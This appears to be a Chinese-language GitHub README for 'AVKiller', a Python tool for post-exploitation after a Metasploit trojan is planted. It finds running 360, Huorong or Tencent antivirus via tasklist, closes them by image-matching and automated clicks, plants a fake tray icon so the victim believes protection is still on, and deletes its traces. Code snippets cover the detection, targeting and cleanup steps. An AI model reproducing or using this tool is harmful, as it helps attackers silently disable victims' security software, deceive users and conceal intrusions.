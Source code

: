 # AVKiller


### 使用python3！！
### 功能更新(2020-7-6)

1. 关闭杀毒软件后，伪造杀毒软件的托盘图标
2. 双击伪造的托盘程序可以正确打开原来的杀毒软件
3. 鼠标移动到伪造杀毒软件图标时会显示响应的气泡事件
![image](https://github.com/PDWR/AVKiller/blob/master/images/fakeTray.png "气泡事件")
4. 右键伪造托盘图标时，可以选择打开活退出（后续可能会更新为匹配原杀毒软件程序界面）
5. 伪造托盘图标程序为母程序释放的子程序，运行后不受母程序影响，独立运行（使用pythonw）

### 原理已经在代码里的注释已经写得比较详尽了，如果还有问题的话，请issue提问，喜欢的话，请不要吝啬给个star！！！


### 运行图
![image](https://github.com/PDWR/AVKiller/blob/master/images/3607-6.gif "关闭&伪造360")
![image](https://github.com/PDWR/AVKiller/blob/master/images/hr7-6.gif "关闭&伪造火绒")
![image](https://github.com/PDWR/AVKiller/blob/master/images/txgj7-6.gif "关闭&伪造腾讯管家")

## 利用图形化识别技术快速关闭目标机器上的杀毒软件


写该脚本的原因是4月份在进行内网渗透的时候，对MSF木马做了免杀处理，做完免杀的木马可以完美绕过杀毒软件的检测，但是msf木马在执行下一步操作的时候，往往会向目标计算机继续写入exe文件或执行powershell代码，这样的操作几乎都会引发杀毒软件的告警，让渗透的过程被对方察觉，而且MSF生成的后渗透可执行文件已经被所有杀毒软件厂商提取特征码，免杀效率几乎为0。所以才有了为何不直接关闭目标的杀毒软件后再进行后渗透操作的想法。


## 功能实现

### 1.识别杀软

为了实现自动识别杀毒软件的功能，首先要知道系统运行了哪些杀毒软件，CMD命令tasklist可以列出系统正在运行的进程，将其与已知的杀毒软件进行进行匹配即可，如果进程中有与av_process里的进程名，说明该电脑正在运行XX杀毒软件。这里需要做个判断，如果不存在杀毒软件的话，则退出该程序。

	#检测杀毒软件函数，返回杀毒软件名称
	av_process = {'hr': 'HipsTray.exe', 'txgj': 'QQPCTray.exe', '360': '360sd.exe'}
	def runningAVs():
		tasklist = popen('tasklist').read().split()  #运行系统命令tasklist
		for av_exe in av_process.values():
			if av_exe in tasklist:
				usingAV = [k for k, v in av_process.items() if v == av_exe][0]
				return usingAV # 返回目标主机使用的杀毒软件名称


判断目标主机使用的杀毒软件后，由于使用的是图像识别，所以需要将对应的图标和"确认""退出"的字样写入

	# 杀毒软件logo，以及其他字符图片的写入。若不存在杀毒软件，程序退出
	try:
		AV = runningAVs()
		print(AV)
		# 将对应的logo写入
		logo_b64 = b64_AV_logo[AV]
		logo_img = base64.b64decode(logo_b64)
		with open(logoImage, 'wb') as f:
			f.write(logo_img)
			
		# 输出通用的‘退出’字符串图片
		with open(logoutImage, 'wb') as f:
			f.write(base64.b64decode(b64_logout))
			
		# 通过杀毒软件判断最后一步退出步骤应该使用的字样
		#（360与腾讯管家的最后一步“确认”字样底色颜色不一样）
		if AV == r'hr':
			return b64_logout
		elif AV == r'360':
			return b64_blue_comfirm
		else:
			return b64_white_comfirm
	#没检测到杀毒软件，程序退出
	except :
		print('主人，这家伙没开杀毒软件！！！！干他๑乛◡乛๑ ')
		exit()


### 2.坐标获取

知道目标主机运行的程序后就需要准备关闭它了，这时候使用opencv的图像识别技术，找到目标（杀毒软件）logo在屏幕的位置，以坐标形式进行返回，用于对鼠标的定位。

	# 使用opencv获取图标的坐标（logo，退出，确认等字样）
	def get_position(imgSource, imgTarget):
		source = cv2.imread(imgSource, 0)  # 0-灰度处理，防止颜色不同对定位产生影响
		target = cv2.imread(imgTarget, 0)
		wight, height = target.shape[::-1]  # 获取图片长和宽，方便确定文字的中新坐标
		res = cv2.matchTemplate(source, target, cv2.TM_CCOEFF_NORMED)
		min_val, max_val, min_loc, max_loc = cv2.minMaxLoc(res)
		pos_x = int(max_loc[0] + wight / 2)
		pos_y = int(max_loc[1] + height / 2)
		# print(pos_x, pos_y)
		return pos_x, pos_y


### 3.鼠标操作

这是pyautogui库的功能，此程序用到的只是rightClick，Click功能，主要是利用opencv获取到的坐标，让鼠标进行移动到对应的位置，然后进行右击和点击操作。

### 4.清理痕迹

活干完了，总不能抢前走人吧，至少得擦掉一些痕迹吧！由于需要多次通过图片对比来找到坐标，所以会在目标电脑里保存6张图片，所以当杀毒软件退出后，我们需要将其删除。CMD的del命令可以删除文件（不是移动到回收站，而是直接删除）

	def clean():
	popen(r'del /q {} {} {} {} {} {}'.format(logoutImage, logoImage, comfireImage,screen_before,screen_logout,screen_comfire))


### 5.Tips

#### a)	关于sleep：为什么需要sleep？
Pyautogui进行截屏操作的时候需要时间（100ms左右，电脑性能会导致时间长短不同），sleep时长跟电脑性能有关，如果目标主机性能足够好的话，可以适当减小sleep时长。

#### b)	关于图片存放位置：为什么不直接在当前目录下？
在当前目录下由于图片中有类似‘退出’、‘确认’字样，会被opencv识别，导致定位不准，所以必须保存在其他目录下

#### c)	关于打开右下角隐藏起的图标
Win+B，再按一下空格键或者回车键

#### d)	关于图片保存
先将图片转为base64，需要用的时候再将其解码回来即可。而且重要的是，当进行渗透的时候，只需要上传一个文件！减少上传的文件数量！

#### e)关于图标与桌面的打开软件的图标是否冲突
这个不会，因为opencv识别时的SourceImage和TargetImage大小差别太大不能识别

### 6. 图片展示
![image](https://github.com/PDWR/AVKiller/blob/master/images/360.gif "关闭360")
![image](https://github.com/PDWR/AVKiller/blob/master/images/txgj.gif "关闭腾讯管家")
![image](https://github.com/PDWR/AVKiller/blob/master/images/hr.gif "关闭火绒")
